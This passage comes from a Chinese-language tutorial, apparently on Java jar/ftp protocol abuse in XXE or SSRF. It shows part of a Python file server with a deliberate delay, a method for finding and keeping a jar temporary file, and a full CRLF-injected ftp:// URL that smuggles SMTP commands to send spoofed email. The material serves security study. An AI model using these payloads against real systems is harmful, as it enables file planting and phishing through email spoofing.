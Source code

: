 ```
if __name__ == '__main__':

    jarserver = socketserver.TCPServer((listen_host,listen_port), JarRequestHandler) 
    print ('waiting for connection...') 
    server_thread = threading.Thread(target=jarserver.serve_forever) 
    server_thread.daemon = True 
    server_thread.start() 
    server_thread.join()
```

这个服务器的目的就是接受客户端的请求，然后向客户端发送一个我们运行时就传入的参数指定的文件，但是还没完，实际上我在这里加了一个 sleep(30)，这个的目的我后面再说

既然是文件上传，那我们又要回到 jar 协议解析文件的过程中了

> **jar 协议处理文件的过程：**
>
> (1) 下载 jar/zip 文件到临时文件中
> (2) 提取出我们指定的文件
> (3) 删除临时文件

那我们怎么找到这个临时的文件夹呢？不用想，肯定是通过报错的形式展现，如果我们请求的

```
jar:http://localhost:9999/jar.zip!/1.php
```

1.php 在这个 jar.zip 中没有的话，java 解析器就会报错，说在这个临时文件中找不到这个文件

**如下图：**

![image-20231218151130748](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218151130748.png)

既然找到了临时文件的路径，我们就要考虑怎么使用这个文件了（或者说怎么让这个文件能更长时间的停留在我们的系统之中，我想到的方式就是sleep()）但是还有一个问题，因为我们要利用的时候肯定是在文件没有完全传输成果的时候，因此为了文件的完整性，我考虑在传输前就使用 hex 编辑器在文件末尾添加垃圾字符，这样就能完美的解决这个问题

[LCTF 2018 T4lk 1s ch34p,sh0w m3 the sh31l 详细分析 | K0rz3n's Blog](https://www.k0rz3n.com/2018/11/19/LCTF 2018 T4lk 1s ch34p,sh0w m3 the sh31l 详细分析/)

### **实验七：钓鱼：**

如果内网有一台易受攻击的 SMTP 服务器，我们就能利用 ftp:// 协议结合 CRLF 注入向其发送任意命令，也就是可以指定其发送任意邮件给任意人，这样就伪造了信息源，造成钓鱼（一下实例来自fb 的一篇文章 ）

Java支持在sun.net.ftp.impl.FtpClient中的ftp URI。因此，我们可以指定用户名和密码，例如ftp://user:password@host:port/test.txt，FTP客户端将在连接中发送相应的USER命令。

但是如果我们将%0D%0A (CRLF)添加到URL的user部分的任意位置，我们就可以终止USER命令并向FTP会话中注入一个新的命令，即允许我们向25端口发送任意的SMTP命令：

**示例代码：**

```
ftp://a%0D%0A
EHLO%20a%0D%0A
MAIL%20FROM%3A%3Csupport%40VULNERABLESYSTEM.com%3E%0D%0A
RCPT%20TO%3A%3Cvictim%40gmail.com%3E%0D%0A
DATA%0D%0A
From%3A%20support%40VULNERABLESYSTEM.com%0A
To%3A%20victim%40gmail.com%0A
Subject%3A%20test%0A
%0A
test!%0A
%0D%0A
.%0D%0A
QUIT%0D%0A
:a@VULNERABLESYSTEM.com:25
```

